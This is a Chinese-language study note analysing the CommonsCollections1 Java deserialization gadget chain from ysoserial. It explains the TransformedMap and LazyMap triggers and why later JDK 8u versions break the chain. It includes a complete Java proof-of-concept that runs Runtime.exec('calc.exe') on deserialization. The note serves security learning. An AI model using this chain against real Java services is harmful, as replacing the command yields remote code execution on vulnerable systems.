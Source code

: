 # CommonsCollections1笔记

代码在github搜索ysoserial即可，这里一个比较好玩的是动态代理，这里给一篇参考文章，https://www.liaoxuefeng.com/wiki/1252599548343744/1264804593397984

## TransformedMap利用链触发流程

​	经过TransformedMap.decorate修饰后的触发其实不在于put方法的触发，而在于org.apache.commons.collections.map.TransformedMap#checkSetValue

至于为什么，这里我来简单说两句这里memberValues也就是TransformedMap对象，其entrySet方法返回的是org.apache.commons.collections.map.AbstractInputCheckedMapDecorator.MapEntry

![](img/2.png)

之后在调用setValue方法的时候，就会调用org.apache.commons.collections4.map.TransformedMap#checkSetValue，后面不必多说了

```java
    protected V checkSetValue(V value) {
        return this.valueTransformer.transform(value);
    }
```

![](img/3.png)

后面LazyMap其实就是对这个的绕过

## LazyMap利用链触发流程

​	LazyMap 的作用是“懒加载”，在get找不到值的时候，它会调用 factory.transform 方法去获取一个值，我们可以利用此来执行整个transform的整个利用过程

然后关于如何触发到get方法，其实在`AnnotationInvocationHandler`类的`invoke`方法有调用到get

我这里本机是jdk7u21，这是我看到的代码![](img/1.png)



可以看到这里在调用其他方法时(从图中看是除了(toString、hashCode、annotationType)会触发get方法，而`this.memberValues`可控

因此不难想到将`AnnotationInvocationHandler`用`Proxy`进行代理，那么在`readObject`的时候，只要调用任意方法，就会进入到 `AnnotationInvocationHandler#invoke` 方法中，进而触发我们的 `LazyMap#get`



因此不难得到下面的代码

```java
package lldapp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),

            new InvokerTransformer("getMethod", new Class[]{
                String.class,
                Class[].class}, new Object[]{"getRuntime",
                new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{
                Object.class,
                Object[].class}, new Object[]{null, new
                Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class
            },
                new String[]{"calc.exe"}),
        };
        Transformer transformerChain = new
            ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        Class clazz =
            Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
            Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)
            construct.newInstance(Retention.class, outerMap);
        Map proxyMap = (Map)
            Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class},
                handler);
        handler = (InvocationHandler)
            construct.newInstance(Retention.class, proxyMap);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new
            ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}

```

## 为什么高版本不行了

主要是sun.reflect.annotation.AnnotationInvocationHandler#readObject的逻辑变了，http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/f8a528d0379d

从原来的defaultReadObject改为了下面的

```java
-        s.defaultReadObject();
+        ObjectInputStream.GetField fields = s.readFields();
```

看下更改后的readFields的调用栈，在读取恢复field的时候会调用sun.reflect.annotation.AnnotationInvocationHandler#readObjec

```java
readObject:452, AnnotationInvocationHandler (sun.reflect.annotation) [2]
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
defaultReadFields:2000, ObjectInputStream (java.io)
readSerialData:1924, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
access$300:206, ObjectInputStream (java.io)
readFields:2164, ObjectInputStream$GetFieldImpl (java.io)
readFields:541, ObjectInputStream (java.io)
```

这里对Lazymap当中的key与value取出来，重新用LinkedHashMap进行了包装

![](img/4.png)

导致了之后在readFields之后，在调用entrySet的时候，通过动态代理调用后不再能触发LazyMap的get方法

![](img/5.png)





